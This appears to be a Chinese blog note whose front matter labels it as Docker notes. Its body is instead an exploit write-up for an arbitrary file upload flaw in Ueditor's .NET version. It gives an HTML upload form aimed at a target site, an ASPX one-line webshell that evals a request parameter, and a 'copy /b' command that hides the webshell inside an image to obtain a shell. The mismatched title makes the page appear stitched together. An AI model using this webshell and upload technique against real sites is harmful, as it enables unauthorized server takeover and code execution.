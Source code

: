 ```yaml
---
layout: post
title: docker
date: 2022-8-12
categories: blog
tags: [笔记,docker]
description: docker技术整理


---
```


### Ueditor .net版本任意文件上传

**漏洞原理**
Ueditor中获取图片资源时仅检查ContentType,可造成任意文件上传

**漏洞复现**
利用post直接上传文件到目标网站

```html
<form action="目标站点" enctype="multipart/form-data" method="POST">
 
 <p>shell addr: <input type="text" name="source[]" /></p>
  
 <input type="submit" value="Submit" />
  
</form>
```

以上代码保存为html直接执行，绕过保护机制上传php木马和aspx图片马进行getshell

**ContentType绕过**

1.aspx图片马

```asp
#aspx一句话
<%@ Page Language="Jscript"%><%eval(Request.Item["zhanan"],"unsafe");%>
copy 1.jpg/b + 2.aspx 3.aspx
```

